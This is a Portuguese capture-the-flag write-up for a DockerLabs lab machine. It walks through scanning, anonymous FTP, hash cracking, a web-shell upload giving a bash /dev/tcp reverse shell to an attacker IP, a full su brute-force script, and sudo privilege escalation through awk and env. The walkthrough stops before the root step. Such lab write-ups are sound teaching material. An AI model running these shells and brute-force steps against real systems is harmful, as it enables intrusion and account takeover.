MÁQUINA FILE

Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.

COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sC -sV -Pn -p- -T5
Temos duas portas aberta:
porta 21: Anonymous, podemos ver que temos um arquivo anon.txt e nele pode ter algo interessante
porta 80: 80/tcp open http Apache httpd 2.4.41

Vamos entrar na porta 21:
ftp anonymous@172.17.0.2


hash: 53dd9c6005f3cdfc5a69c5c07388016d
Vamos criar um arquivo hash.txt e quebrar a senha com john.
john --format=raw-md5 hash.txt
senha encontrada: justin

Outra maneira de quebrar a hash é no site https://crackstation.net/

Agora vamos entra na porta 80: http://172.17.0.2/

Vamos analisar o código fonte, e observamos que tem um comentário interessante:

Vamos fazer um fuzzing para ver se tem pastas ocultas, com a ferramenta gobuster.
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/big.txt -x .txt,.html,.php,.py

Vamos entrar na pasta /file_upload.php: http://172.17.0.2/file_upload.php
Veja que podemos tentar subir um arquivo com uma reverse shell.


Esse script permite da comandos na url.

Vamos para o burp suite para decoder e depois encoder url, depois copiar o enconder e colar na url no navegador.
bash -c 'bash -i >& /dev/tcp/192.168.0.16/4444 0>&1'

Com isso temos a reverse shell: http://172.17.0.2/uploads/shell.phar?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2fdev%2ftcp%2f192.168.0.16%2f4444%200%3E%261%27


Vamos criar um script de força bruta na máquina atacante e depois transferir para máquina da vitima, para descobrir o usuário e a senha.
#!/bin/bash
# Definição de cores
VERMELHO='\033[1;31m'
VERDE='\033[1;32m'
AMARELO='\033[1;33m'
RESET='\033[0m'
# Parâmetros
LISTA_SENHAS=$1
# Verificação de argumentos
if [ $# -ne 1 ]; then
echo -e "${VERDE}[${AMARELO}*${VERDE}] Uso: ${VERMELHO}$0 ${AMARELO}<lista_senhas>${RESET}"
exit 1
fi
# Função para limpeza e saída
sair() {
echo -e "${VERMELHO}[-] Encerrando...${RESET}"
rm -f ./usuarios.txt
exit 1
}
# Função para checagem de erro
verificar_erro() {
if [ $? -ne 0 ]; then
echo -e "${VERMELHO}[-] Ocorreu um erro, encerrando...${RESET}"
exit 1
fi
}
# Capturar usuários que possuem shells válidos e diretórios home
cat /etc/passwd | grep -E "bash|dash|zsh|ksh|fish|home" | sed 's/:/ /g' | awk '{print $1}' > usuarios.txt
verificar_erro
# Configurar interrupção de execução
trap sair SIGINT
# Contar linhas da lista de senhas
LINHAS=$(wc -l $LISTA_SENHAS | awk '{print $1}')
TENTATIVAS=0
# Início do loop de força bruta
while IFS= read -r SENHA; do
while IFS= read -r USUARIO; do
echo -e "${VERDE}[${VERMELHO}*${VERDE}]${VERMELHO} Tentativa... $TENTATIVAS${AMARELO}/${VERMELHO}$LINHAS${RESET}"
if timeout 0.073 bash -c "echo '$SENHA' | su $USUARIO" > /dev/null 2>&1; then
clear
echo -e "${VERDE}[${VERMELHO}✓${VERDE}]${AMARELO} Senha ${VERMELHO}$SENHA${AMARELO} encontrada para o usuário ${VERMELHO}$USUARIO${RESET}"
rm -f ./usuarios.txt
exit 0
fi
clear
done < "./usuarios.txt"
TENTATIVAS=$(($TENTATIVAS+1))
done < "$LISTA_SENHAS"
# Mensagem final em caso de falha
clear
echo -e "${VERMELHO}[-] Não foi possível encontrar a senha${RESET}"
rm -f ./usuarios.txt

Máquina atacante

Máquina vítima

Ao executar a ferramenta, conseguimos:
usuário: fernando
senha: chocolate
Conseguimos entrar no usuário fernando.

Vamos entrar na pasta de fernando, e ao entrar temos uma imagem, que vamos baixar na maquina atacante para ver se temos algo na imagem.

máquina atacante baixar a imagem:

stegseek --crack dragon-medieval.jpeg /usr/share/wordlists/rockyou.txt
Ao extrair a imagem com a ferramenta stegseek, vejamos que temos um hash.
hash: cbfdac6008f9cab4083784cbd1874f76618d2a97

Vamos ate o site:https://crackstation.net/ para ver o que passa nessa hash.
senha: password123

Com a senha que encontramos conseguimos entrar no usuário mario.

Vamos procurar por escalação de de privilégios sudo -l .
o usuário mario pode executar o comando awk como o usuário julen sem necessidade de senha. Isso pode ser explorado para obter privilégios do usuário julen.

Vamos entrar no site https://gtfobins.github.io/gtfobins/awk/ .

sudo -u julen /usr/bin/awk 'BEGIN {system("/bin/bash")}'
Somos o usuário julen.

Vamos procurar por escalação de de privilégios sudo -l .
o usuário julen pode executar o comando env como o usuário iker sem senha. Isso permite que você escale os privilégios para o usuário iker.

Vamos entrar novamente no site: https://gtfobins.github.io/gtfobins/env/
sudo -u iker /usr/bin/env bash

Vamos procurar por escalação de de privilégios sudo -l .
O usuário iker pode executar o script Python /home/iker/geo_ip.py como qualquer usuário, incluindo o root, sem precisar de senha. Isso representa uma excelente oportunidade para escalar privilégios para root.

